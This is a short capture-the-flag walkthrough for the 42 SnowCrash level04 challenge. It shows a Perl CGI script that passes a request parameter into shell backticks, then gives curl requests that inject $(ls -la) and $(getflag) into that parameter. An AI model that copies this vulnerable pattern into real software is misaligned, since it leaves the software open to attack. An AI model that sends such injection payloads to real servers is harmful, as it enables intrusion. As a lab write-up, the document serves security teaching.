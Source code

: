 ```yaml
---
title: 42 SnowCrash level04 - Walkthrough 👾 
tags:
  - ctf
  - cgi
  - perl
  - exploit
  - command-injection
  - web
  - 42project
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:37:32
---
```


![snowcrash](/images/snowcrash.png)

## Introduction

In level 04, we encountered a Perl CGI script (`level04.pl`) vulnerable to command injection. By manipulating the input parameter, we were able to execute arbitrary commands on the server.

### Perl CGI Code

```perl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
}
x(param("x"));
```

### Vulnerability

The Perl script listens on port 4747 and accepts an "x" parameter via HTTP GET requests. It then directly echoes the parameter value without proper sanitization, leading to command injection.

### Exploitation

1. **Testing the Script**
   We tested the script by providing simple input:
   ```sh
   curl -d x="test" http://127.0.0.1:4747
   ```
2. Result: test

    Exploiting Command Injection
    We injected commands to list files in the directory:
    ```shell
    curl -d x="\$(ls -la)" http://127.0.0.1:4747
    ```
    Result: Directory listing displayed.
3. Obtaining the Flag
    Finally, we executed getflag to retrieve the flag:
    ```shell
    curl -d x="\$(getflag)" http://127.0.0.1:4747
    ```

# Conclusion

By exploiting the command injection vulnerability in the Perl CGI script, we successfully executed arbitrary commands on the system, ultimately obtaining the flag for level 04.
